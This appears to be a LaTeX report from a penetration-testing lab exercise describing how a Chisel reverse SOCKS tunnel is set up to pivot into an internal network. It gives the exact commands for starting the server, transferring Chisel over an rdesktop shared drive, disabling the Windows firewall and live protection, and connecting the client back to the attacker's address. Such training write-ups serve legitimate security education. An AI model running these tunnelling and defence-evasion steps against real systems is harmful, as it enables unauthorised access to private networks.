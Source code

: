 \documentclass[notitlepage]{article}
\begin{document}
  
\title{Penetration Test Exercise 0b0}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage
\section{Attack Narrative}

    \subsection{Chisel}
    To start off, a chisel server was started in the local kali VM using the following command
    
    \begin{verbatim}
./chisel server --reverse --socks5
    \end{verbatim}
    
    Where we are given a fingerprint and confirmation the server is on. We can then transfer the Chisel folder to the remote desktop using rdesktop. We also want to see
    the ip address we will use on the microsoft host.
    
    \begin{verbatim}
mktemp -d
cp -r Chisel /tmp/<tmp>
ip a
rdesktop innerouter.artstailor.com -r disk:win32=/tmp/<tmp>
    \end{verbatim}

    We can login use the credentials supplied to log in as a root user. We can also see that the IP we will want to use is 172.24.0.10. Once inside the remote desktop, we can 
    then navigate to the settings and turn off firewall live protection. We can then start the command prompt as admin and navigate to the mounted directory
    with Chisel. From here, we want to run the client which will allow us to pivot from our local host and access other internal servers that we might not have access to.
    
    \begin{verbatim}
chisel.exe client --fingerprint <fingerprint> 172.24.0.10:8080 R:socks
    \end{verbatim}
\end{document}
